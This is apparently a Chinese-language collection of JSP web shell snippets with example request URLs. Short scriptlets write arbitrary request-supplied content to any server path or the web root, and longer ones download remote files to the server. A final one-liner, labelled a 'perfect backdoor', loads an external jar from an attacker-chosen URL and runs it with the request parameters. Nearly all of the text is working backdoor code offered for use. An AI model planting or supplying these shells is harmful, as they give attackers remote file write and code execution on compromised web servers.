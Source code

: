 ###把字符串编码后写入指定文件的：

1.1
````<%new java.io.FileOutputStream(request.getParameter("f")).write(request.getParameter("c").getBytes());%>````
请求：http://localhost:8080/Shell/file.jsp?f=/Users/yz/wwwroot/2.txt&c=1234

写入web目录：

1.2
````<%new java.io.FileOutputStream(application.getRealPath("/")+"/"+request.getParameter("f")).write(request.getParameter("c").getBytes());%>````
请求：http://localhost:8080/Shell/file.jsp?f=2.txt&c=1234



2.1
````<%new java.io.RandomAccessFile(request.getParameter("f"),"rw").write(request.getParameter("c").getBytes()); %>````
请求：http://localhost:8080/Shell/file.jsp?f=/Users/yz/wwwroot/2.txt&c=1234

写入web目录:

2.2
````<%new java.io.RandomAccessFile(application.getRealPath("/")+"/"+request.getParameter("f"),"rw").write(request.getParameter("c").getBytes()); %>````
请求：http://localhost:8080/Shell/file.jsp?f=2.txt&c=1234

###下载远程文件(不用apache io utils的话没办法把inputstream转byte,所以很长…)


    <%
        java.io.InputStream in = new java.net.URL(request.getParameter("u")).openStream();
        byte[] b = new byte[1024];
        java.io.ByteArrayOutputStream baos = new java.io.ByteArrayOutputStream();
        int a = -1;
        while ((a = in.read(b)) != -1) {
            baos.write(b, 0, a);
        }
        new java.io.FileOutputStream(request.getParameter("f")).write(baos.toByteArray());
    %>

请求：http://localhost:8080/Shell/download.jsp?f=/Users/yz/wwwroot/1.png&u=http://www.baidu.com/img/bdlogo.png

下载到web路径:


    <%
        java.io.InputStream in = new java.net.URL(request.getParameter("u")).openStream();
        byte[] b = new byte[1024];
        java.io.ByteArrayOutputStream baos = new java.io.ByteArrayOutputStream();
        int a = -1;
        while ((a = in.read(b)) != -1) {
            baos.write(b, 0, a);
        }
        new java.io.FileOutputStream(application.getRealPath("/")+"/"+ request.getParameter("f")).write(baos.toByteArray());
    %>

请求：http://localhost:8080/Shell/download.jsp?f=1.png&u=http://www.baidu.com/img/bdlogo.png

###反射调用外部jar,完美后门

如果嫌弃上面的后门功能太弱太陈旧可以试试这个：


    <%=Class.forName("Load",true,new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL(request.getParameter("u"))})).getMethods()[0].invoke(null, new Object[]{request.getParameterMap()})%>

请求：http://192.168.16.240:8080/Shell/reflect.jsp?u=http://p2j.cn/Cat.jar&023=A


详情：[p2j.cn](http://javaweb.org/?p=1627)
